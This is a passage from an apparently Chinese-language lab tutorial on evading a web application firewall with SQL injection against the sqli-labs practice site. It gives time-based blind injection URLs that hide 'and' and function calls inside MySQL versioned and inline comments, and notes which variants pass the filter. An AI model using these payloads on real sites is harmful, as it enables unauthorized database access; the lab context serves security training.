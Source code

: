 ![添加条件判断注释](./../../../../images/SQL%20%E6%B3%A8%E5%85%A5%E5%85%8D%E6%9D%80/%E6%B7%BB%E5%8A%A0%E6%9D%A1%E4%BB%B6%E5%88%A4%E6%96%AD%E6%B3%A8%E9%87%8A.png)

> 成功绕过
>
> 网页响应时间为 2 秒

提交注释后的参数

```
http://192.168.186.129/sqli-labs/Less-1/?id=1'/*!11440and*/if(ascii(substr(database/**/(/*!*/),1,1))>116,1,sleep/**/(/*!3*/))--+
```

> 成功绕过

在 and 后加 !

> and 参数后可以跟奇数个数的特殊符号，包括但不限于 !~&-

```
http://192.168.186.129/sqli-labs/Less-1/?id=1'and!if(ascii(substr(database/**/(/*!*/),1,1))>116,1,sleep/**/(/*!3*/))--+
```

> 不拦截，但是时间与预期不符
